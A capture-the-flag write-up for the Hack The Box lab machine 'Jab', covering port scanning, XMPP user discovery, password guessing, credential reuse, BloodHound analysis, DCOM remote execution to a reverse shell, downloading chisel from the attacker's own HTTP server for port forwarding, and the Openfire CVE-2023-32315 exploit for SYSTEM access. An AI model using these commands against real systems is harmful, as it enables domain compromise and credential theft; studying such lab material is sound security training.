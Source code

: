 # [Jab](https://app.hackthebox.com/machines/jab)

```bash
nmap -p- --min-rate 10000 10.10.11.4 -Pn
```

![alt text](img/image.png)

After detection of open ports, let's do greater nmap scan for these ports.

```bash
nmap -A -sC -sV -p53,88,135,139,389,445,464,593,636,3268,3269,5222,5223,5269,5270,7070,7443,7777 10.10.11.4 -Pn
```

![alt text](img/image-1.png)


This machine is `Domain Controller`.


We need to add this ip address into `/etc/hosts` file for resolving purposes.



From port enumeration, I saw that `5222` port is running. To access to this application, we need to use `pidgin` software.

![alt text](img/image-2.png)


After account creation, I find users of target domain.

![alt text](img/image-3.png)


I find new domain `conference.jab.htb`, let's add this also into `/etc/hosts` file.


I connect into `test2` room and see `bdavis` message.

![alt text](img/image-4.png)


Let's brute-force this user's password with default passwords and below one is worked.


bdavis:Welcome1


Again, I login into this server this credentials.

With that user, I find `pentest2003` room and here I find some interesting and sensitive stuff.

![alt text](img/image-5.png)



I find `hashcat` output result for `svc_openfire` user.


svc_openfire:!@#$%^&*(1qazxsw


Let's check this credentials are domain account's credentials or not via `crackmapexec`.

```bash
crackmapexec smb jab.htb -u "svc_openfire" -p '!@#$%^&*(1qazxsw'
```

![alt text](img/image-6.png)


Let's enumerate `SMB` shares via this account by using `smbmap` tool.
```bash
smbmap -H jab.htb -u "svc_openfire" -p '!@#$%^&*(1qazxsw'
```

![alt text](img/image-7.png)


There's nothing, I run `bloodhound` against my target via this credentials.

```bash
bloodhound-python -u 'svc_openfire' -p '!@#$%^&*(1qazxsw' -d jab.htb -dc DC01.jab.htb -c all -ns 10.10.11.4
```

![alt text](img/image-8.png)


Let's run `bloodhound` for this.
```bash
neo4j start
bloodhound
```


While analyzing privileges of `svc_openfire` user, I find `ExecuteDCOM` privilege against `Domain Controller`.

![alt text](img/image-9.png)


It means our `svc_openfire` user has membership of group called `Distributed COM(Component Object Model) Users` localgroup on `DC01.jab.htb` machine.


As a result, we can do code execution on remote machine.

For this, I will use `dcomexec` script of `Impacket` module.
```bash
impacket-dcomexec 'jab.htb/svc_openfire:!@#$%^&*(1qazxsw@dc01.jab.htb' '{powershell_reverse_shell}' -nooutput -object MMC20 -dc-ip 10.10.11.4
```

![alt text](img/image-11.png)


I prepare my reverse shell payload on [revshells](https://revshells.com/)

![alt text](img/image-10.png)

Hola, I got reverse shell from port `1337`.

![alt text](img/image-12.png)



user.txt

![alt text](img/image-13.png)


For `Privilege Escalation`, I just look at listening ports via `netstat`.

```bash
netstat -ano | findstr 'LISTENING'
```

![alt text](img/image-14.png)



I see port `9090`, let's do `Port Forwarding` via chisel.

I need to transfer `chisel.exe` into machine.
```bash
python3 -m http.server --bind 10.10.14.12 8080
```

![alt text](img/image-15.png)


Then, I download this via `iwr` command.
```bash
iwr http://10.10.14.12:8080/chisel.exe -outfile chisel.exe
```

![alt text](img/image-16.png)


First, I need to open `chisel` server on my machine.
```bash
chisel server -p 9999 --reverse
```

![alt text](img/image-17.png)

Second, I need to run below payload to connect into my machine.
```bash
chisel client 10.10.14.12:9999 R:9090:127.0.0.1:9090
```

![alt text](img/image-18.png)


I opened the web application on port `9090` as below.

![alt text](img/image-19.png)


I login via my `svc_openfire` credentials.


I read [this](https://www.vicarius.io/vsociety/posts/cve-2023-32315-path-traversal-in-openfire-leads-to-rce) to get Remote Code Execution and do the steps shown in here.


That's [CVE-2023-32315](https://github.com/miko550/CVE-2023-32315)


After uploading `vulnerable` jar file, I can browse this and got shell by selecting `system command`

![alt text](img/image-20.png)


Let's add reverse shell payload (powershell reverse shell payload base64 encoded) into here to get reverse shell.

![alt text](img/image-21.png)

Hola, I got reverse shell from port `1338`.


![alt text](img/image-22.png)


root.txt

![alt text](img/image-23.png)